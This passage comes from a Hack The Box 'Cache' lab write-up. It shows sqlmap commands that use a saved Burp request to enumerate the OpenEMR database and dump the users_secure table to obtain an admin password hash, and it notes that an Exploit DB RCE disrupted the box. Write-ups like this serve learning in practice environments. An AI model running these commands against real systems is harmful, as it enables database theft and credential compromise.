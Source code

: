 ![Saving Burp Request](../../assets/img/writeups/htb/cache/save_burp_request.png)
{: refdef}

- Feed the request to `sqlmap` to generate a list of tables

`sqlmap -r <name-of-request-file-from-step-7> --tables`

- Use `sqlmap` to dump the `users_secure` table

`sqlmap -r <name-of-request-file-from-step-7> --dump -D openemr -T users_secure`

{:refdef: style="text-align: center;"}
![Secure Users Table](../../assets/img/writeups/htb/cache/users_secure_dump.png)
{: refdef}

Now we had a password hash for the `openemr_admin` user, it was time to crack it.

**Note: The python RCE found on Exploit DB would turn off the Patient Portal if it adjusted the global config. This made the above exploit very hard to perform. The box required multiple resets before I was able to reset the patient portal at some points. A drawback of firing exploits you do not understand at a machine. I am interested to see how others worked around this issue and if a reset was not required to contine with exploitation.**
